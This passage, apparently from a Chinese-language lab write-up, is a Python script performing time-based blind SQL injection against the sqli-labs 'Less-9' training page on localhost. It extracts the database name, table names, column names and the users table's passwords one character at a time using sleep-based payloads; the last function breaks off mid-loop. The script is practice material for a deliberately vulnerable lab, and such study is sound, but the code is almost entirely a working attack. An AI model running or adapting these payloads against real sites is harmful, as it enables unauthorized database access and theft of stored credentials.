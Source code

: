脚本如下：

```python
import requests

url = "http://127.0.0.1/sqli-labs-master/less-9/index.php?id="
payload = "abcdefghijklmnopqrstuvwxyz1234567890!@#{}_-=+[]&();"

def get_databse():
    res = ""
    for i in range(1, 100):
        print(i)
        for ch in payload:
            sql = "1' and if((substr(database(),{},1)='{}'),sleep(4),1)%23".format(i, ch)
            try:
                r = requests.get(url + sql, timeout=3.9)
            except requests.exceptions.ReadTimeout:
                res += ch
                print(res)
                break
    print("Database: ", res)

def get_tables():
    res = ""
    for i in range(1, 100):
        print(i)
        for ch in payload:
            sql = "1' and if((substr((select group_concat(table_name separator ';') from information_schema.tables where table_schema='security'),{},1)='{}'),sleep(4),1)%23".format(i, ch)
            try:
                r = requests.get(url + sql, timeout=3.9)
            except requests.exceptions.ReadTimeout:
                res += ch
                print(res)
                break
    print("Table names: ", res)

def get_columns():
    res = ""
    for i in range(1, 100):
        print(i)
        for ch in payload:
            sql = "1' and if((substr((select group_concat(column_name separator ';') from information_schema.columns where table_name='uagents' and table_schema=database()),{},1)='{}'),sleep(4),1)%23".format(i, ch)
            try:
                r = requests.get(url + sql, timeout=3.9)
            except requests.exceptions.ReadTimeout:
                res += ch
                print(res)
                break
    print("Column names: ", res)

def get_flag():
    res = ""
    for i in range(1, 100):
        print(i)
        for ch in payload:
            sql = "1' and if((substr((select group_concat(password separator ';') from security.users),{},1)='{}'),sleep(4),1)%23".format(i, ch)
            try:
                r = requests.get(url + sql, timeout=3.9)
            except requests.exceptions.ReadTimeout:
                res += ch
```